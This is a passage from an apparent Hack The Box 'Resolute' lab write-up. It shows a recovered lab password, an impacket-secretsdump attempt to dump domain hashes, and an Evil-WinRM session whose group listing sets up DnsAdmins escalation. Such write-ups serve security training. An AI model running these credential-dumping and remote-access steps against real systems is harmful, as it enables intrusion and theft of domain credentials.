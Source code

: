A user ryanand also a passwordServ3r4Admin4cc123!
![Resolute -HacktheBoxMedium](https://i.ibb.co/P6BwvMw/pic3.png)

(Pwn3d!), But am I really a Box Admin now?

* To verify I will use secretsdumpto try to extract the secretsNTDS.DIT

```bash
└─# impacket-secretsdump megabank.local/ryan:Serv3r4Admin4cc123\!@10.129.234.83
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```
It does not work

# Privilege Escalation
With this user, I will also log in winrmto see if I could escalate my privileges.
```bash
Evil-WinRM* PS C:\Users\ryan\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
Nothing interesting in the privileges, and if I checked thegroups
```bash
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
```